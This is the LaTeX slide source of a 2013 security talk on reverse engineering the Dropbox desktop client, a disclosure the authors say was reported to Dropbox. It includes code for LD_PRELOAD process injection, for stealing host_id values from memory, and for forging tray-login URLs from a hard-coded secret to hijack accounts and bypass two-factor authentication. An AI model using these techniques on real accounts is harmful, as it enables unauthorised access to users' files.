\documentclass{beamer}
% \setbeameroption{show notes} un-comment to see the notes
\usepackage[utf8x]{inputenc}
\usepackage[T1]{fontenc}
\usepackage{graphicx}
\usepackage{multicol}
\usepackage{pythonlisting}
%\usepackage[scaled=0.9]{helvet}
\newcommand{\cmark}{\ding{51}}%
\newcommand{\xmark}{\ding{55}}%

\useoutertheme{infolines}
\usetheme{Openwall}
\setbeamertemplate{navigation symbols}{}

\newcommand\myfont{\fontsize{14}{20}\selectfont}

\title{Looking inside the (Drop) box}
\subject{Looking inside the (Drop) box}
% \title{Security Analysis Of Dropbox}
\subtitle{Breaking a 10 billion USD product ;)}
\author{Przemysław Węgrzyn, Dhiru Kholia}
\date{2013.08.13}

\begin{document}

\frame{\titlepage}

\begin{frame}
\frametitle{About Przemysław}
\myfont
\begin{itemize}
\itemsep 2em
\item Freelance software developer, Python user
\item Occasional open-source contributor (LIDS, Postfix, PDNS)
\item Reverse engineering freak
\item @czajnick on Twitter
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{About Dhiru}
\myfont
\begin{itemize}
\itemsep 1.2em
\item dhiru@openwall.com
\item JtR, Ettercap and hashkill developer
\item Metasploit and Nmap contributor
\item @DhiruKholia on Twitter
\item https://github.com/kholia
\item "john-users" and "john-dev" mailing lists
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{Agenda}
\begin{itemize}
\itemsep 1.7em
\item About Dropbox
\item Existing Work
\item Unpack, decrypt and decompile Dropbox
\item Hijacking Dropbox accounts
\item Bypassing SSL and 2FA
\item Dropbox OSS client
\item DEMO :-)
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{About Dropbox}
\myfont
\begin{itemize}
\itemsep 1.2em
\item Leading cloud based file storage service

\item 175 million+ users and growing fast

\item Worth 10 billion USD

\item Runs almost anywhere (no Java crap!)

\item Dropbox client, a modified interpreter running obfuscated Python bytecode
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{Existing Work}
\myfont
\begin{itemize}
\itemsep 0.7em
\item (2012) A Critical Analysis of Dropbox Software Security, Nicolas RUFF and Florian LEDOUX (EADS guys)
\item EADS guys analyzed versions 1.1.x to 1.5.x. Fails for 1.6.x released in November, 2012.
\item Mostly kept the "juicy" bits (like source code) to themselves
\item "dropboxdec" by Hagen Fritsch in 2012, for versions 1.1.x only
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{Earlier reversing techniques}
%\myfont
\begin{itemize}
	\itemsep 1.8em
	\item pyREtic (Rich Smith, Black Hat / DEFCON 2010) doesn't work for reversing Dropbox since \emph{co\_code} (code object attribute, raw bytecode) can't be accessed anymore at the Python layer
	\item Replacing .pyc with .py to control execution doesn't work!
	\item "Reverse Engineering Python Applications" (WOOT '08 paper, Aaron Portnoy) technique doesn't work for the same reason
	\item Dropbox is "challenging" to reverse and existing techniques fail
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{Dropbox 1.1.x to 2.3.19}
\myfont
\begin{itemize}
\itemsep 1em
\item (Most) Dropbox clients are written mostly in Python

\item py2exe is used for packaging Windows client

\item Python27.dll (customized version) can be extracted from Dropbox.exe using PE Explorer

\item Dropbox.exe also contains a ZIP of all encrypted PYC files (bytecode)
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{What about Linux version?}
\myfont
\begin{itemize}
\itemsep 2em
\item bbFreeze is (most likely) used for packaging Linux clients

\item Static linking is used. There is no Python / OpenSSL .so file to extract
and analyze in IDA Pro :-(

\end{itemize}
\end{frame}

\begin{frame}[fragile]
\frametitle{Extract encrypted bytecode, "unpacker"}
\begin{python}
import zipfile

fileName = "Dropbox.exe"

ztype = zipfile.ZIP_DEFLATED

f = zipfile.PyZipFile(fileName, "r", ztype)

f.extractall("pyc_orig")

# Works on all versions & all platforms!
\end{python}
\end{frame}

%% Przemek's part - decryption

\begin{frame}
	\frametitle{Bytecode (.pyc) decryption}
\begin{itemize}
\itemsep 2em
\item{No human-readable strings in \texttt{.pyc} files - encrypted!}
\item{\texttt{.pyc} files are simply code objects marshaled (serialized)}
\item{Analyzed \texttt{Python27.dll} (modified Python interpreter) from the Windows version of Dropbox}
\item{We found Python's \texttt{r\_object()} (\texttt{marshal.c}) function
patched to decrypt code objects upon loading}
\item{Also \texttt{.pyc} magic number was changed - trivial to fix}
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{.pyc decryption}
\begin{itemize}
\itemsep 2em
\item{To decrypt the buffer \texttt{r\_object()} calls a separate function inside \texttt{Python27.dll}}
\item{Why not call this decryption function from outside the DLL?}
\item{Hard-coded address, as it has no symbol attached}
\item{Unusual calling ABI, inline ASM saves the day!}
\item{Slightly tricky due to code objects nested recursively}
\item{No need at all to analyse the encryption algorithm, keys, etc.}
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{Opcode Remapping}
\begin{itemize}
\itemsep 2em
\item{Valid strings, but \texttt{.pyc} files still fail to load}
\item{CPython is a simple opcode (1 byte long) interpreter}
\item{\texttt{ceval.c} is mostly a big \texttt{switch} statement inside a loop}
\item{It was patched to use different opcode values}
\item{Mapping recovered manually by comparing disassembled DLL with standard \texttt{ceval.c}}
\item{The most time consuming part - ca. 1 evening ;)}
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{Bytecode decryption on Linux}
\myfont
\begin{itemize}
\itemsep 1em
\item{Everything statically linked into a single binary}
\item{Decryption function inlined into \texttt{r\_object()}, we can no longer call it from outside}
\item{Need to find a more robust approach}
\item{How about loading \texttt{.pyc} files and serializing them back?}
\item{How do we gain control flow to load these .pyc files?}
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{Good, old \texttt{LD\_PRELOAD}}
\begin{itemize}
\itemsep 1em
\item{We can use \texttt{LD\_PRELOAD} to inject our C code into \texttt{dropbox} process} \\
	\vspace{1em} {\texttt{export LD\_PRELOAD=libdedrop.so}}
\item{Just override some common C function like \texttt{strlen()} to gain control}
\item{Can we inject Python code this way?}
\item{Yeah, we can call \texttt{PyRun\_SimpleString}}
\item{BTW, it's official Python C API}
\item{Look Ma, my Python file running inside a Dropbox binary!}
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{Decryption for FREE!}
\begin{itemize}
\itemsep 2em
\item{We can use \texttt{LD\_PRELOAD} to inject our C code into \texttt{dropbox} process}
\item{From injected code we can call another un-marshalling function, \texttt{PyMarshal\_ReadLastObjectFromFile}}
\item{It loads (and decrypts!) the code objects from \textbf{encrypted} .pyc file}
\item{We no longer care about decryption, we get it for free!}
\item{We still need to remap the opcodes, though!}
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{\# Solving Opcode Mapping}
\begin{itemize}
\itemsep 2em
\item{Opcode mapping was recovered manually initially}
\item{Tedious and not future-proof at all}
\item{We can NOW recover the mapping in a fully automated way}
\item{Restored the \emph{import} functionality in Dropbox}
\item{all.py exercises > 95\% of the opcodes, compile under both interpreters
and do simple mapping between two bytecode versions}
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{Missing co\_code at Python layer}
\begin{itemize}
\itemsep 1.6em
\item{co\_code is not visible to the Python layer}
\item{Layout of structure hosting co\_code's is unknown!}
\item{Need to find offset of co\_code somehow}
\item{Create new code object with known code string using PyCode\_New()}
\item{Use linear memory scan to locate the offset of the known code stream}
\item{Problem Solved ;)}
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{Decryption for FREE!}
\myfont
\begin{itemize}
\itemsep 1.5em
\item{The missing part - serializing it back to file }
\item{Object marshalling was stripped from Dropbox's Python, for good reasons ;)}
\item{We used PyPy's \texttt{\_marshal.py}}
\item{... and yes, we inject the whole thing into the Dropbox process.}
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{Decrypting encrypted bytecode}
\myfont
\begin{itemize}
\itemsep 1em
\item{Our method is a lot shorter, easier and more reliable than EADS one}
\item{Around 200 lines of easy C, 350 lines of Python (including marshal code from PyPy)}
\item{Robust, as we don't even need to deal with decryption ourselves}
\item{Worked with all versions of Dropbox that we used for testing}
\end{itemize}
\end{frame}

%% decryption part ends here, decompilation

\begin{frame}
\frametitle{Decompiling decrypted bytecode}
\begin{itemize}
\itemsep 2em
\item uncompyle2

\item A Python 2.5, 2.6, 2.7 byte-code decompiler, written in Python 2.7

\item https://github.com/Mysterie/uncompyle2

\item Super easy to use (\$ uncompyle2 code.pyc) and it works great!

\item We used https://github.com/wibiti/uncompyle2 since it is a bit more stable!
\end{itemize}
\end{frame}

\begin{frame}[fragile]
\frametitle{\# Interesting code snippets}
\begin{python}
    IS_DEV_MAGIC = DBDEV and hashlib.md5(DBDEV)
        .hexdigest().startswith('c3da6009e4')
\end{python}
\begin{itemize}
\itemsep 2em
\item Logging is a "protected" developers-only feature
\item Turning IS\_DEV\_MAGIC on enables debug mode which results in a lot of logging output
\item It is possible to externally set this DBDEV environment variable
\end{itemize}
\end{frame}

\begin{frame}[fragile]
\frametitle{\# Cracking partial MD5 hash}
\begin{itemize}
\itemsep 1.8em
\item Wrote JtR plug-in for cracking the partial hash
\item Superjames from \#openwall cracked it before our plug-in had a chance
\end{itemize}
\begin{python}
    $ echo -en "a2y6shya" | md5sum
       c3da6009e40a6f572240b8ea7e814c60

    $ export DBDEV=a2y6shya; dropboxd
\end{python}
\begin{itemize}
\item This results in Dropbox printing debug logs to console
\item So what? What is interesting about these logs?
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{host\_id (Key Security Item)}
\begin{itemize}
\itemsep 1em
\item Each endpoint registration is associated with a unique, persistent 128-bit secret value called host\_id

\item Generated by server during installation. Not affected by password changes!

\item host\_id was stored in clear-text (in older versions) in a SQLite database

\item In earlier versions of Dropbox, getting host\_id was enough to hijack
accounts (Derek Newton)

\item host\_id is now stored in encrypted fashion

\item Also, we need host\_id and "host\_int" these days

\end{itemize}
\end{frame}

\begin{frame}
\frametitle{\# Hijacking accounts using logs!}
\myfont
\begin{itemize}
\itemsep 1em
\item host\_id and host\_int can be extracted from the DEBUG logs!
\item This method is used in dropbox\_creds.rb (Metasploit post module) plug-in
to hijack Dropbox accounts. \\
 \vspace{1em} {\small https://github.com/rapid7/metasploit-framework/pull/1497}
\item Fixed after we reported it to Dropbox guys
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{host\_id and host\_int}
\myfont
\begin{itemize}
\itemsep 1em
\item In addition, host\_id can be extracted from \$HOME/.dropbox/config.dbx (using tools published by EADS guys)
\item host\_id and host\_int can also be extracted from memory of the Dropbox process (more on this later)
\item host\_int can be "sniffed" from Dropbox LAN sync protocol traffic
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{\# LAN sync protocol + host\_int sniffing}
\begin{itemize}
\itemsep 2em
\item host\_int can be "sniffed" from Dropbox's LAN sync protocol traffic (but this protocol can be disabled by the user)
\item Wrote Ettercap plug-in since Nmap plug-in was broken! \\
  \vspace{1em} https://github.com/kholia/ettercap/tree/dropbox
\item \$ nmap -p17500 --script=broadcast-dropbox-listener --script-args=newtargets
\item host\_int doesn't seem to change (is it fixed by design?)
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{Dropbox Tray Login}
\myfont
\begin{itemize}
\itemsep 2em
\item What do I do with host\_id and host\_int?
\item How does the Dropbox client automagically log in a user to its website from the tray icon? \\
\vspace{1em} 
\includegraphics[scale=0.5]{dbicon.png}
\item Use the Source, Luke!
\end{itemize}
\end{frame}

\begin{frame}[fragile]
\frametitle{Web link generation}
\begin{python}
host_id = ?   # required!
host_int = ?  # required!

baseurl = "https://www.dropbox.com/tray_login"
fixed_secret = "ssKeevie4jeeVie9bEen5baRFin9"
now = int(time.time())

h = hashlib.sha1('%s%s' % (fixed_secret,
       host_id, now)).hexdigest()

url = "%s?i=%d&t=%d&v=%s&url=home&cl=en_US" %
        (baseurl, host_int, now, h)

print url # :-)
\end{python}
\end{frame}

\begin{frame}
\frametitle{More host\_int hacks}
\myfont
\begin{itemize}
\itemsep 3em
\item host\_int is received from the Dropbox server at the very start

\item So can we ask the server for it ?

\item Turns out it is "easy" to do so
\end{itemize}
\end{frame}

\begin{frame}[fragile]
\frametitle{Get host\_int from server!}
\begin{python}
host_id = ?  # required!

ctype = 'application/x-www-form-urlencoded'
baseurl = 'https://client10.dropbox.com/'
data = "buildno=Dropbox-win-1.7.5&tag=&\
        uuid=123456&server_list=True&\
        host_id=%s&hostname=random" % host_id
headers = {'content-type': ctype}
r = requests.post(url + 'register_host',
        data=data, headers=headers)
data = json.loads(r.text)

host_int = data["host_int"]

# host_id is EVERYTHING in Dropbox world!

\end{python}
\end{frame}

\begin{frame}
\frametitle{Question?}
\myfont
\begin{itemize}
\itemsep 3em
\item You can't sniff Dropbox traffic!
\item So, how did we manage to figure out all these internal API calls?
\item Reading code is "hard"!
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{Reflective DLL injection / LD\_PRELOAD}
\myfont
\begin{itemize}
\itemsep 2em
\item Inject a custom DLL / DSO, patch Python objects and bypass SSL encryption
\item Find SSLSocket objects and patch their read(), write() and send() methods
\item Can also steal host\_id, host\_int or whatever we want!

\end{itemize}
\end{frame}

\begin{frame}[fragile]
\frametitle{Patching \& Snooping}
\begin{python}
# 1. Inject code into Dropbox.
# 2. Locate PyRun_SimpleString using dlsym
#    from within the Dropbox process
# 3. Feed the following code to the located
#    PyRun_SimpleString

import gc

objs = gc.get_objects()
for obj in objs:
    if hasattr(obj, "host_id"):
        print obj.host_id
    if hasattr(obj, "host_int"):
        print obj.host_int
\end{python}
\end{frame}

\begin{frame}
\frametitle{Dropbox API and bypassing 2FA}
\begin{itemize}
\itemsep 2em
\item Bypassed SSL and peeked at traffic to understand the internal API
\item Now it is possible to write an open-source Dropbox client
\item Dropbox's two factor authentication can be bypassed by using this internal API!
\item Inject / Use host\_id, bypass 2FA, gain access to Dropbox's website + all data!
\item host\_id trumps all other security measures!
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{\# Challenges / Future Work}
\begin{itemize}
\itemsep 2em
\item "export DBDEV=a2y6shya" trick is patched in 2.0.0 (current stable release). Dropbox guys now check full hash value.
\item SHA-256 hash 'e27eae61e774b19f4053361e523c771a92e8380\\26da42c60e6b097d9cb2bc825‘
\item Can we break this SHA-256 hash?
\item Can we run from the decompiled "sources"? ;)
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{DEMO!}
\myfont
\begin{itemize}
\itemsep 2.4em
\item Get Dropbox
\item Extracting and decompiling bytecode
\item Accounting hijacking (dropbox-jack-v2.py)
\item Dropbox OSS client
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{Resources}
\myfont
\begin{itemize}
\itemsep 2em
\item Dropbox OSS PoC client, dedrop, all our source-code! \\
      \vspace{0.9em} https://github.com/kholia/dedrop
\item https://github.com/wibiti/uncompyle2.git
\item https://github.com/kholia/dbx-keygen-linux.git
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{\# Fun Stuff ;)}
\begin{itemize}
\itemsep 1em
\item http\_authentication.py file contains: \\
  \vspace{1em} 'fak returned', FakeShit realm="hi" \\
  \vspace{1em} NTLM realm="your mom", you="suck", \\
  \vspace{1em} Digest realm='"hi", Shit"' \\
\item There actually is a file named "ultimatesymlinkresolver.py" \\
  \vspace{1em} Can't really say what is so "ultimate" about resolving symlinks ;)
\item Dropbox runs nginx, "nginx/1.2.7"
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{Questions \& Discussion}

\includegraphics[scale=0.16]{openwall-logo.png}
\begin{itemize}
\itemsep 2em
\item Are the obfuscation measures helping Dropbox and their users? Is this "arms-race" going to stop?
\item \bf{Dhiru Kholia (dhiru@openwall.com)}
\item \bf{Przemysław Węgrzyn (pwegrzyn@codepainters.com)}
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{\# Thanks!}
\begin{itemize}
\itemsep 2.3em
\item Openwall folks, my colleagues at work, anonymous reviewers and friends
for their invaluable feedback and encouragement
\item Hagen Fritsch for showing that automated opcode mapping recovery is
possible
\item EADS guys and wibiti for their work on uncompyle2

\item Dropbox for being so awesome!
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{Thanks!}
\begin{center}

\includegraphics[scale=0.35]{thanks}
\end{center}
\end{frame}
\end{document}
